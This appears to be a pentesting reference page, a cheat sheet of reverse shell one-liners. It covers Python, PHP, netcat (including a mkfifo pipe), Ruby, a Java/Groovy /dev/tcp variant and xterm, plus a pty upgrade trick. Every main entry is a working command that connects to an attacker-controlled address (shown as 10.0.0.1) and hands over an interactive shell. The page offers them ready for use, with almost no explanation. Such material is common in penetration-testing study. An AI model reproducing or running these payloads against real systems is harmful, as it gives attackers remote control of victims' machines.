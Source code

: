 ```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - reverse shells
---
```


# Reverse Shells


| Reverse shell | Link to resource |
| ------------- | ---------------- |
| Netcat for windows 32/64 bit | [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe) |


Source for the following code: [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


## bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


## php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


## java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

## xterm

```bash
xterm -display 10.0.0.1:1
```
  